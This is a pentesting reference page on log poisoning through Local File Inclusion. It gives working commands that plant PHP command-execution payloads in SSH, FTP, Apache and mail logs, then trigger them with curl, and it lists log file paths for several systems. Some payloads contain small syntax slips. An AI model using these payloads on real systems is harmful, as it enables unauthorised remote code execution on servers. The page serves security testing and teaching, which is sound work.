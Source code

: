# logs poisoning

> [!WARNING]
> Log files may be stored in different locations depending on the operating system/distribution.

::: details /var/log/auth.log
For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth.log`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
# Sending the payload via SSH
ssh '<php phpinfo(); ?>'@$TARGET

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```
:::


::: details /var/log/vsftpd.log
When the FTP service is available, testers can try to access the `/var/log/vsftpd.log` and see if any content is displayed. If that's the case, log poisoning may be possible by connecting via FTP and sending a payload (depending on which web technology is used).

```bash
# Sending the payload via FTP
ftp $TARGET_IP
> '<php system($_GET['cmd'])?>'

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/vsftpd.log&cmd=id
```
:::


::: details /var/log/apache2/access.log
When the web application is using an Apache 2 server, the `access.log` may be accessible using an LFI.

* About `access.log`: records all requests processed by the server.
* About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/access.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `access.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache access file location: `/var/log/httpd/access_log`
* Debian / Ubuntu Linux Apache access log file location: `/var/log/apache2`/access.log
* FreeBSD Apache access log file location: `/var/log/httpd-access.log`
* Windows Apache access log file location: **** `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx/access.log`
* Windows Nginx access log file location: `C:\nginx\log`
:::


::: details /var/log/apache/error.log
This one is similar to the `access.log`, but instead of putting simple requests in the log file, it will put errors in `error.log`.

* About `error.log`: records any errors encountered in processing requests.
* About netcat: using netcat avoids URL encoding.

```bash
# Sending the payload via netcat
nc $TARGET_IP $TARGET_PORT
> GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
> Host: $TARGET_IP
> Connection: close

# Accessing the log file via LFI
curl --user-agent "PENTEST" $URL/?parameter=/var/log/apache2/error.log&cmd=id
```

There are [some variations](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) of the `error.log` path and file depending on the operating system/distribution:

* RHEL / Red Hat / CentOS / Fedora Linux Apache error file location: `/var/log/httpd/error_log`
* Debian / Ubuntu Linux Apache error log file location: `/var/log/apache2/error.log`
* FreeBSD Apache error log file location: `/var/log/httpd-error.log`
* Windows Apache access log file location: **** `C:\xampp\apache\logs`

Or if the web server is under Nginx :

* Linux Nginx access log file location: `/var/log/nginx`
* Windows Nginx access log file location: `C:\nginx\log`
:::


::: details /var/log/mail.log
When an SMTP server is running and writing logs in `/var/log/mail.log`, it's possible to inject a payload using telnet (as an example).

```bash
# Sending the payload via telnet
telnet $TARGET_IP $TARGET_PORT
> MAIL FROM:<pentest@pentest.com>
> RCPT TO:<?php system($_GET['cmd']); ?>

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=/var/log/mail.log&cmd=id"
```
:::

